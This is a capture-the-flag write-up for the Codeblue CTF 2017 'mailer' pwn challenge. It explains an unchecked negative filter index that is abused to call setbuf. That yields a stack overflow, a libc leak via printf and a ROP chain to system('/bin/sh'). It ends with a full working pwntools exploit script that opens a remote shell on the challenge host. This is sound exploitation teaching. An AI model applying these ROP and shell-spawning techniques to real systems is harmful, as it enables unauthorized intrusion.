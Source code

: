 ```yaml
---
title: Codeblue CTF 2017 - Secret Mailer Service
date: '2017-11-11'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- codeblue2017
tags:
- pwn
- rop
- overflow
- setbuf
authors:
- dp_1
---
```


For this challenge we're given the binary of a service, `mailer`. There are 5 letters allocated on the stack which we can work on, and every time a letter is referenced the code checks if the index is valid - no exploits there. The service allows us to write, delete and post letters, where posting a letter really means writing out its contents to `/dev/null` with the ability to use a filter. It's in the filter selection that we find our vulnerability:

```cpp
int post_letter(Letter *letters, FILE *s)
{
    int v3;
    int v4;

    puts("\nWhich letter do you want to post?");
    printf("ID (0-%d): ", 4);
    v4 = read_number();
    if ( v4 < 0 || v4 > 4 || !letters[v4].present )
        return puts("Invalid ID.");
    puts("\nWhich filter do you want to apply?");
    filter_menu();
    v3 = read_number();
    if ( v3 > 2 )
        return puts("Invalid filter.");
    filters[v3](s, letters[v4].data, letters[v4].length);
    return puts("\nDone!");
}
```

The filter id is only checked to be <= 2 and not >= 0. This allows us to input a negative number in there and, since the filters are implemented as a lookup table of function addresses, we can basically call whatever function we want, as long as the parameters are compatible. What I did was call the setbuf entry in plt by using index -15, thus setting the data of one of the filters as the buffer for `/dev/null`. The nice part here is that libc assumes this buffer to be at least 8192 bytes long, so by posting other letters we can overflow it.

Let's have a quick look at how a letter is saved in memory:

```cpp
00000000 Letter          struc ; (sizeof=0x108, mappedto_5)
00000000 present         dd ?
00000004 length          dd ?
00000008 data            db 256 dup(?)
00000108 Letter          ends
```

And at the stack of the main loop (please note this is the inverted stack layout used by ida, lower addresses are on top):

```cpp
-0000053C stream          dd ?                    ; /dev/null
-00000538 var_538         dd ?
-00000534 var_534         dd ?
-00000530 data            Letter 5 dup(?)
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The logical thing to do now is overflow the buffer for the last letter, getting full control of the return address while leaving the other entries free for our use - remember that to overflow the buffer we have to post other letters' contents. Unfortunately, we still don't know any libc address, so that's what we're going to focus on next. I did it in a quite convoluted way, but a way I liked: I realized that we could return first to the `read_letter` function, whose role is to read a string into a buffer, and give it the address of some free memory area in order to write a format string there, and then call `printf` to leak a plt address. The end of this first step is returning back to the main loop, now knowing libc's base address.

For the second and last step, I used the same setbuf and read_letter calls, only this time providing `"/bin/sh"` instead of `"%s"` to the latter. Then the logical thing was to call `system` on the buffer, getting a shell on the remote server. A couple of commands later, I got this:
`CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}`

Hell, this one took me a long time to figure out and it was only meant to be a warmup?

---

This is the full exploit script:

```python
from pwn import *

def chunks(data, step):
	for i in range(0, len(data), step):
		yield data[i:min(i+step, len(data))]

def add_letter(r, letter):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('Input your contents:')
	r.sendline(letter)

def delete_letter(r, letterid):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))

def post_letter(r, letterid, filterid):
	r.recvuntil('> ')
	r.sendline('3')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))
	r.recvuntil('> ')
	r.sendline(str(filterid))


libc = ELF('./libc.so.6')

r = remote('sms.tasks.ctf.codeblue.jp', 6029)
#r = process('./mailer')


### First step: obtain libc base address

buf_addr = 0x0804B040
p = 'A' * (256 + 12)

# write the format string using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(4)

# call printf("%s", plt.atoi)
p += p32(0x080484C0)
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(0x0804B03C) # got address for atoi

# call main_loop once again
p += p32(0x08048BD0)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4');
r.recvuntil(':)')
r.sendline('%s')
r.readline()
dump = r.readline()

atoi_addr = ord(dump[0]) + (ord(dump[1]) << 8) + (ord(dump[2]) << 16) + (ord(dump[3]) << 24)
print 'Atoi addr: 0x%x' % atoi_addr
libc_addr = atoi_addr - libc.symbols['atoi']
print 'Libc base: 0x%x' % libc_addr


### Second step: call system("/bin/sh")

p = 'A' * (256 + 12)

# write /bin/sh using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(16)

# call system("/bin/sh")
p += p32(libc_addr + libc.symbols['system'])
p += p32(0x08048dab) #pop:ret
p += p32(buf_addr)

# call fail
p += p32(0x0804868B)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4')
r.recvuntil(':)')
r.sendline('/bin/sh')

r.interactive()

```
